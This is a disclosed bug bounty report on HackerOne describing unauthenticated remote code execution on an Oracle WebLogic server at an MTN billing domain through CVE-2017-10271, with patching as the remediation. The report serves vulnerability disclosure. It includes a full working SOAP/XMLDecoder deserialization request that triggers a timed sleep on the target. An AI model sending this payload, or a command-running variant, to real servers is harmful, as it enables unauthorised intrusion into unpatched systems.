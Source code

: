 # Remote OS Command Execution on Oracle Weblogic server via [CVE-2017-10271]

## Report Details
- **Report ID**: 810755
- **URL**: https://hackerone.com/reports/810755
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-03-04T13:45:59.061Z
- **Disclosed**: 2021-04-25T12:39:51.124Z

## Reporter
- **Username**: tounsi_007
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
##Summary

Hello. I was able to identify RCE vulnerability due to the outdated Oracle Weblogic instance on `https://raebilling.mtn.co.za`.

##Steps To Reproduce

* To reproduce, launch this request with BurpSuite
* This request to the `https://raebilling.mtn.co.za/wls-wsat/CoordinatorPortType` will trigger sleep for 15 seconds (same applies for 20 secondes, 40 seconds):

```
POST /wls-wsat/RegistrationPortTypeRPC HTTP/1.1
Host: raebilling.mtn.co.za
Content-Length: 426
content-type: text/xml
Accept-Encoding: gzip, deflate, compress
Accept: */*

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java class="java.beans.XMLDecoder">
        <object class="java.lang.Thread" method="sleep">
          <long>40000</long>
        </object>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
==**POC:**== {F736913} {F736912} {F736915}

## Suggested Mitigation/Remediation Actions
* Patching WebLogic to the recent version will fix the issue.

## Impact

**This vulnerability allow an unauthenticated attacker:**
* To perform Remote OS Command Execution.

## Attachments
- RCE_Sleep_20.png
- RCE_Sleep_15.png
- RCE_Sleep_40.png
